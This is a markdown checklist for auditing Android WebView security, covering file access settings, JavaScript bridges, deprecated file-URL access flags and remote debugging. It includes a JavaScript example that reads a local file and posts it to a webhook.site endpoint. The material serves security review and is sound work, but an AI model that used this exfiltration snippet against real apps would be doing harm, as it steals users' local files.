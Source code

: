 # WebViews

## File Access in WebViews
- By default, WebViews permit file access. This functionality is controlled by the `setAllowFileAccess()` method, available since Android API level 3 (Cupcake 1.5). Applications with the `android.permission.READ_EXTERNAL_STORAGE` permission can read files from external storage using a file URL scheme (file://path/to/file).

- [ ] **Check for `loadURL()` Function**
  - [ ] **Check for `WebView.getSettings().setJavaScriptEnabled(true)`**: This setting allows the execution of JavaScript code within the WebView. WebViews can handle the intent scheme, potentially leading to exploits if not carefully managed. An example vulnerability involved an exposed WebView parameter "url" that could be exploited to execute cross-site scripting (XSS) attacks.

> [!NOTE] 
> This setting alone isn't always sufficient to pose a high security risk. Additional settings need to be checked, such as the following:

- **Deprecated Features: Universal and File Access From URLs**
  - [ ] **Check for `WebView.setAllowUniversalAccessFromFileURLs(true)`**: This setting removes all same-origin policy restrictions and allows the WebView to make requests from file URLs to the web. This can potentially allow an attacker to read local files using JavaScript and send them to an attacker-controlled domain.
  - [ ] **Check for `WebView.setAllowFileAccessFromFileURLs(true)`**: File Access From File URLs > This feature, also deprecated, controlled access to content from other file scheme URLs. Like universal access, its default is disabled for enhanced security.

- **WebViewAssetLoader (Mitigation):**
  - The WebViewAssetLoader class is the modern approach for loading local files. It uses http(s) URLs for accessing local assets and resources, aligning with the Same-Origin policy, thus facilitating CORS management.

- **Javascript Bridge**
  - A feature is provided by Android that enables JavaScript in a WebView to invoke native Android app functions. This is achieved by utilizing the `addJavascriptInterface` method, which integrates JavaScript with native Android functionalities, termed as a WebView JavaScript bridge. Caution is advised as this method allows all pages within the WebView to access the registered JavaScript Interface object, posing a security risk if sensitive information is exposed through these interfaces.

    - Extreme caution is required for apps targeting Android versions below 4.2 due to a vulnerability allowing remote code execution through malicious JavaScript, exploiting reflection.
  - [ ] **Check for `WebView.addJavascriptInterface("OBJECT_OF_JAVA_CLASS", "OBJECT_OF_JAVASCRIPT_CLASS")`**: This setting creates an interface between JavaScript in the WebView and Java code defined in the interface. From the JavaScript object, public functions from the Java object class can be called.

## Example of JavaScript Code for Data Exfiltration

```javascript
<script>
var xhr = new XMLHttpRequest();
var xhr2 = new XMLHttpRequest();

xhr.onreadystatechange = () => {
    if (xhr.readyState === 4) {
        xhr2.open("POST", "https://webhook.site/your-endpoint");
        xhr2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        xhr2.send('data=' + btoa(xhr.responseText));
    }
};

xhr.open("GET", "file:///path/to/file", true);
xhr.send();
</script>
```
- [ ] Check for Remote Debugging with `WebView.setWebContentsDebuggingEnabled(true);`
    - If enabled, anyone on the same local network can see , control the WebView and execute JavaScript code.

    - You can test WebView remote debugging using chrome://inspect/#devices in Google Chrome.

## Resources
- [Web view Check list](https://blog.oversecured.com/Android-security-checklist-webview/)
- [HackTricks - WebView](https://book.hacktricks.xyz/mobile-pentesting/android-app-pentesting/webview-attacks)